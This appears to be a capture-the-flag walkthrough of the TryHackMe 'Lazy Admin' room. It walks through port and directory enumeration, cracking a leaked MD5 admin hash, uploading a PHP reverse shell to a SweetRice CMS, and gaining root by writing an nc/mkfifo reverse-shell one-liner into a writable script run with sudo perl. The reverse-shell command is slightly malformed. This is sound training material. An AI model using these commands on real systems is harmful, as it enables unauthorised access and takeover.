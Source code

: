 #Lazy Admin

https://tryhackme.com/room/lazyadmin

##Lazy Admin 
1. user flag
	echo <machine-ip> lazyadmin.com >> /etc/hosts

##Enumeration
nmap -sC -sV -oN nmap.txt lazyadmin.com
```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```
```bash
firefox lazyadmin.com
```
We will run gobuster to enumerate the website
```bash
gobuster dir -u http://lazyadmin.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/content
```
```bash
firefox lazyadmin.com/content
```
```lazyadmin.com/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
firefox lazyadmin.com/content/inc
```
```
we will see a folder named mysql_backup
navigate to mysql_backup and download the file
open the file using any text editor i use vim
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
manager : 42f749ade7f9e195bf475f37a44cafcb(MD5)
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```creds
manager : Password123
```
```bash
firefox lazyadmin.com/content/as
```
and enter the creds to login
and navigate to media center
and upload the reverse shell if you dont have you can download it from the link below
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
after changing the ip address and renaming it to revshell.php5
we see the file is uploaded
open terminal and execute this
```bash
nc -lnvp 4444
``` 
now click on the uploaded file
and we got a shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
enter these two commands to spawn a tty terminal
move to /home/itguy

```
we got the user flag
```

2. root flag

##Privilege Escalation
```mysql.backup
rice : randompass
```
```back.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Luckily we can write into copy.sh 
now all we need to do is insert a reverse shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 5554" >/tmp/f > copy.sh
```
open a new terminal and run this command
```bash
nc -lnvp 5554
```
then go victim shell and execute this command
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```
we got the user flag
```

